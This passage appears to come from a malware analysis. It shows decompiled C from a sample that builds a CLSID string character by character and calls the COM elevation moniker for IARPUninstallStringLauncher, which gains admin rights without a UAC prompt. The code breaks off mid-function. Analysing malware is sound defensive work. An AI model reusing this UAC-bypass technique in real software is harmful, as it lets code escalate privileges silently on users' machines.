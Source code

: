 This works because once the evelated COM object is obtained, any method calls on this object are executed with admin rights. This allows the function to perform tasks that normally require elevated privlege without directly invoking a UAC prompt within the code.

```c
void sub_100013E0()
{
  void (__stdcall *pfn_LaunchUninstallStringAndWait)(void *, _DWORD, __int16 *, _DWORD, _DWORD); // eax
  void (__stdcall *pfn_IARPUninstallStringLauncher_Release)(void *); // edi
  void *ppv; // [esp+14h] [ebp-160h] BYREF
  OLECHAR sz[40]; // [esp+18h] [ebp-15Ch] BYREF
  __int16 v4[40]; // [esp+68h] [ebp-10Ch] BYREF
  WCHAR pszName[68]; // [esp+B8h] [ebp-BCh] BYREF
  BIND_OPTS pBindOptions; // [esp+140h] [ebp-34h] BYREF
  int v7; // [esp+154h] [ebp-20h]
  int v8; // [esp+160h] [ebp-14h]
  IID iid; // [esp+164h] [ebp-10h] BYREF

  sz[1] = 'F';
  sz[16] = 'F';
  sz[6] = '2';
  sz[34] = '2';
  sz[36] = '2';
  sz[13] = '9';
  sz[18] = '9';
  sz[27] = '9';
  sz[17] = 'D';
  sz[25] = 'D';
  ppv = 0;
  sz[0] = '{';
  sz[2] = '8';
  sz[3] = '8';
  sz[4] = '5';
  sz[5] = '1';
  sz[7] = '0';
  sz[8] = 'E';
  sz[9] = '-';
  sz[10] = '3';
  sz[11] = '7';
  sz[12] = '8';
  sz[14] = '-';
  sz[15] = '4';
  sz[19] = '-';
  sz[20] = '8';
  sz[21] = '6';
  sz[22] = '5';
  sz[23] = 'E';
  sz[24] = '-';
  sz[26] = 'C';
  sz[28] = 'B';
  sz[29] = '4';
  sz[30] = 'A';
  sz[31] = '6';
  sz[32] = '4';
  sz[33] = '1';
  sz[35] = 'D';
  sz[37] = '}';
  sz[38] = '\0';

  // {F885120E-3789-4fd9-865E-DC9B4A6412D2} - CLSID for `IARPUninstallStringLauncher
  if ( !IIDFromString(sz, &iid) )
  {
    wcscpy(pszName, L"Elevation:Administrator!new:{FCC74B77-EC3E-4DD8-A80B-008A702075A9}");
```